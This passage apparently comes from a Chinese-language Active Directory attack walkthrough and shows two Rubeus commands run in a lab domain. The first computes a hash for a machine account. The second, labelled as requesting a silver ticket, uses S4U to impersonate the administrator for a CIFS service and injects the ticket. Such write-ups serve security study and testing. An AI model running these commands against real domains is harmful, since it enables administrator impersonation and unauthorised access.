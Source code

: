 
```plain
Rubeus.exe hash /user:evilsystem /password:evil /domain:hacke.testlab
```

[![](assets/1705982146-70335b1b675ed09302dbbf566788d666.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120223918-b13179be-b7a1-1.png)  
Step 3：使用rebues请求的白银票据

```plain
Rubeus.exe s4u /user:evilsystem$ /rc4:B1739F7FC8377E25C77CFA2DFBDC3EC7 /impersonateuser:administrator /msdsspn:cifs/win7-test /ptt
```

